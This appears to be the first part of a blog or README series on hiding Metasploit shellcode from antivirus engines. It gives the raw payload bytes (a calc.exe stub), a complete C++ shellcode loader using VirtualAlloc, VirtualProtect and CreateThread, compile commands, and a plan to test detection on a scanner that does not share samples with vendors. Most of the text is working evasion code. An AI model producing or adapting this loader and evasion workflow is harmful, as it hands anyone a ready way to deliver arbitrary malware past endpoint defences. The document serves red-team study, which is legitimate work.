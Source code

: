 # A Study in Obfuscation

In this blog series, we explore how to obfuscate a Metasploit payload to avoid detection by Antivirus Engines and shall try to go invisible.

We would employ known techniques and see how they affect detection rates uploading the compiled executable to [AntiScan](https://antiscan.me/) as it does not submit the samples to the vendors.

## Environment Setup
To begin with, we would be needing some tools and setup to get started. The first thing is the unobfuscated shellcode we'll be using: 

```bash
RAW_PAYLOAD = [
    0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
    0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
    0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 
    0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 
    0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 
    0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b, 
    0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48, 
    0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 
    0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 
    0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 
    0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1, 
    0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44, 
    0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 
    0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 
    0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 
    0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 
    0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48, 
    0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 
    0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 
    0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff, 
    0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 
    0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89, 
    0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
]
```

This will be our base from where we start. The raw, untampered shellcode is placed in `scripts/obfuscator.py`. The python file describes a class `Obfuscator` which takes our shell code and obfuscates it to various levels which is used as the payload in `implant.cpp`

Next up, we need to set up our development environment. For this, we need to install [Visual Studio's C/C++ Development Tools](https://visualstudio.microsoft.com/vs/features/cplusplus/).

Once that is done, we can bring up any IDE of our choice and jump straight to coding. However, if you are using Visual Studio Code, I highly recommend having `x64 Native Tools Command Prompt` as your default. One way of doing is to add the full path to `VsDevCmd.bat` to  VS Code's `settings.json` file as such:

```json
{

    "workbench.colorTheme": "Default Dark+",
    "terminal.integrated.shell.windows": "cmd.exe",
    "terminal.integrated.shellArgs.windows": [
        "/k", "C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Auxiliary\Build\vcvarsall.bat", "x64"
    ],
    "terminal.integrated.automationShell.windows": null,
    "explorer.confirmDelete": false,
}
```

## Level 0 - The Raw Shell Code

To begin with, we write a program to execute our shell code with the help of a program as such:

```cpp
/// Compile With:
/// cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcimplant.cpp /link /OUT:executables\level0.exe /SUBSYSTEM:CONSOLE /MACHINE:x64 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>


// Payload String
unsigned char payload[] = {
    0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
    0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
    0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
    0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
    0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
    0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
    0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
    0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
    0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
    0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
    0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
    0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
    0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
    0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
    0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
    0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
    0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
    0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
    0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
    0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
    0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
    0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
    0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

// Length of payload array
unsigned int payload_len = (unsigned int)(sizeof(payload)/sizeof(payload[0]));

  
/// Main Function
///
/// Returns
///  0 - OK
/// -1 - VirtualAlloc() failed
/// -2 - VirtualProtect() failed
/// -3 - CreateThread() failed
/// -4 - WaitForSingleObject() failed
int main(void){
    BOOL rv;
    HANDLE th;
    DWORD _event = 0;
    void * exec_mem;
    DWORD oldprotect = 0;

    // Allocate a memory buffer for payload
    exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (exec_mem == NULL){
        // fprintf(stderr, "VirtualAlloc Failed with error code: %d\n", GetLastError());
        return -1;
    }

    // Copy payload to new buffer
    RtlMoveMemory(exec_mem, payload, payload_len);

    // Make new buffer as executable
    rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    if ( rv == 0 ) {
        // fprintf(stderr, "VirtualProtect Failed with error code: %d\n", GetLastError());
        return -2;
    }

    // Create Thread To run shellcode
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
    if (th == NULL){
        // fprintf(stderr, "CreateThread Failed with error code: %d\n", GetLastError());
        return -3;
    }

    _event = WaitForSingleObject(th, -1);
    if(_event == WAIT_FAILED){
        // fprintf(stderr, "WaitForSingleObject Failed with error code: %d\n", GetLastError());
        return -4;
    }
  
    return 0;
}
```

The program basically takes the payload generated by Metasploit, creates a memory region with **Read** and **Write** permissions to hold the same, followed by changing the permissions of the region to **Read** and **Execute** before finally creating a thread to execute it. 

The above program can be compiled with:
```bash
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcimplant.cpp /link /OUT:level0.exe /SUBSYSTEM:CONSOLE /MACHINE:x6
```

This should create a `level0.exe` executable file in the current directory which, when run, pops up the `calc.exe` program. 

### Antiscan Analysis
We see that most AV engines flag the binary and rightfully so because it barely contains any obfuscation and Metasploit payloads have well-defined signatures at this point.

[**Antiscan Score: x/26**]()
![Level0 Analysis]()
